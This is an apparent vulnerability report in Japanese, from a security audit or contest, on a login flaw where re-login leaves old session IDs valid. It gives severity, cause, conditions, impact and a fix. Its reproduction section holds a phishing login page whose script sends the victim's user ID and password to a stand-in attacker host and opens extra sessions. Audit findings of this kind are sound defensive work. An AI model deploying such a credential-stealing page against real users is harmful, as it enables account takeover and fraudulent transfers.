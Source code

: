 ## サーバにおいて多重ログインの際にセッションIDを破棄しないことによる多重ログインと不正操作の脆弱性
### 対象
ログイン画面

### 危険度
Middle
* 中間者攻撃やなりすまし攻撃によるセッションハイジャックで容易になりすますことができ、そのユーザの任意の処理を実行できるため

### 解説
今回のプログラムでは、ログイン時に`session.php`を用いてPHPのセッション機能を利用しセッション管理を行なっている。
しかし、現在の実装ではログインする上で当該ユーザが再ログインした場合に、
それ以前に利用していたセッション情報を破棄せずに新規のセッションを作成するため、
以前のセッション情報でもアクセスができる状態になる。
これにより、なりすましページを作成してログインさせる・MITMを実行しログインさせる等でセッションIDを複数作成することにより、
当該ユーザのセッションIDを攻撃者が保持し攻撃に利用することができる


### 再現方法
以下のようななりすましページを作成する
```html
<html>
<body>
<form name="login">
    UID: <input type="input" name="uid"><br>
    PASS: <input type="password" name="pass"><br>
    <button type="button" onclick="javascript:send()">OK</button>
</form>
<script>
    send = _ => {
        {uid, pass} = {
            uid: document.forms[0].uid.value,
            pass: document.forms[0].pass.value
        };

        fetch("https://mbsd.internal.local/index.php", {
            method: 'POST',
            body: {
                mode: 'login',
                JSON: JSON.stringify({
                    loginid: uid,
                    password: pass
                })
            }
        }).then( (res) => {
            fetch("http://attacker.internal.local/fishing.do", {
                    body: {
                        uid,
                        pass
                    }
                }
            ).then( _ => console.log("FIRE!!!"));

            fetch("https://mbsd.internal.local/index.php", {
                method: 'POST',
                body: {
                    mode: 'login',
                    JSON: JSON.stringify({
                        loginid: uid,
                        password: pass
                    })
                }
            }).then( (res) => {
                // 本来の処理
            })
        })
    }
</script>
</body>
</html>
```

このように、ログイン時にセッションIDを複数作成し、片方を攻撃者が保持することにより、
利用者がログアウトしても有効なセッションが作成できる。

### 条件
* 中間者攻撃ができる事 または なりすましを行うために標的の個人情報を知っている事

### 想定される被害・影響
* 当該ユーザの情報の改ざん
* なりすましによる不正送金

### 対策
* データベースにセッション情報を保存する等して多重ログインができないようにする